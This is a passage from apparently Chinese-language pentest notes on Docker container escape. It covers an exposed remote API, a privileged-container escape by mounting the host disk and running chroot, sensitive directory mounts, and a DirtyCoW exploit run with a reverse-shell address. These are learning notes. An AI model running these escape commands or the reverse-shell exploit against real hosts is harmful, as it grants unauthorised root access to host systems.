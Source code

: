 docker remote api可以执行docker命令，docker守护进程监听在0.0.0.0，可直接调用API来操作docker。

![image-20231023182901150](../images/image-20231023182901150.png)

![image-20231023182819832](../images/image-20231023182819832.png)

### Privileged 特权模式容器逃逸

```bash
sudo docker run -itd --privileged ubuntu:latest /bin/bash # 使用特权模式启动容器
fdisk -l # 查看磁盘文件
mkdir /tmp/test # 创建挂载目录
mount /dev/sda1 /tmp/test # 将宿主机磁盘挂载到挂载目录
chroot /tmp/test # 切换根目录
```

![image-20231023183310012](../images/image-20231023183310012.png)

![image-20231023183617812](../images/image-20231023183617812.png)

### 敏感目录挂载逃逸

```bash
df # 显示文件系统的磁盘空间使用情况，包括文件系统的挂载点
```

以挂载了宿主机`/root`到容器`/root`为例

![image-20231023185041650](../images/image-20231023185041650.png)

### 宿主机内核漏洞导致逃逸

[CVE-2016-5195实验：DirtyCoW与Docker逃逸 (wohin.me)](https://blog.wohin.me/posts/dirtycow-for-escape/)

Pyaload：[scumjr/dirtycow-vdso: PoC for Dirty COW (CVE-2016-5195) (github.com)](https://github.com/scumjr/dirtycow-vdso)

```bash
make
./0xdeadbeef 172.18.0.2:10000
```

**由于最后获得的事实上是一个反弹shell，所以要给出反弹的IP和端口。端口可以随意设置，IP可以用`ifconfig`查看。**

![FE062CE3-C428-4889-ABF2-3423CB1D9D28](../images/FE062CE3-C428-4889-ABF2-3423CB1D9D28.png)

![5B633EA1-A558-4DE2-A2D5-6A1ED2DD6412](../images/5B633EA1-A558-4DE2-A2D5-6A1ED2DD6412.png)

![0E89C848-0E3B-4AFD-B035-F8D46CE032F3](../images/0E89C848-0E3B-4AFD-B035-F8D46CE032F3.png)



## 集成工具
